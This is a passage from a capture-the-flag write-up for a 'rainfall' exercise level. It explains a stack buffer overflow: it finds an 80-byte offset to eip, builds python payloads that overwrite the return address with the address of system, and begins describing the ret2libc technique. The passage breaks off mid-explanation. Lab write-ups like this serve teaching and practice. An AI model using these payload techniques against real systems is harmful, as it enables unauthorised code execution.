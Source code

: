 - That mean, the 80th character overwrite the `eip` register, **the offset is 80**.

### _How we can start our payload ?_

- Even than the previous [level](https://github.com/Nimpoo/rainfall/tree/main/level1), we write a python script for overflooding the buffer, and get stay the standrad input open :

```sh
python -c 'print "A" * 80'; cat
```

### _Mission 1 accomplished ! ✅_

## 2. Finding the address of the `system` function

- With the command `print` in `gdb`, we can find the address of the `system` function, BUT we can print this address only when the program is running (or when the program crash to see the last status of the registers).

- Considering we print the address just after the program crash, we can see the address of the `system` function :

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb)
```

### _Okay, that's was easy !_

Now we have this payload :

```sh
python -c 'print "A" * 80 + "\x60\xb0\xe6\xb7"'; cat
```

## 3. Finding the address of the `exit` function

For more comprehension, we have to make a brief of the `ret2libc` technique.


- *The `stack` **BEFORE** the `ret2libc` technique :*
```lua
<high address>
+-----------------------+  <-- Top of the stack
|    Local variables    |  <-- Local variables of the function
+-----------------------+
|     Return address    |  <-- Address to return to after execution
+-----------------------+
|     Base pointer      |  <-- Base pointer (ebp) of the calling function
+-----------------------+
|   Function arguments  |  <-- Arguments passed to the function
+-----------------------+
|   Free space (stack)  |  <-- Area used to push more data
+-----------------------+
|                       |
|                       |
.         etc...        .
.                       .
<low address>
```
In order :
1. The **local variables** at the top
2. The **return address** (this is where the `eip` will point once the function is finished)
3. The base pointer `ebp` of the calling function
4. The arguments passed to the function
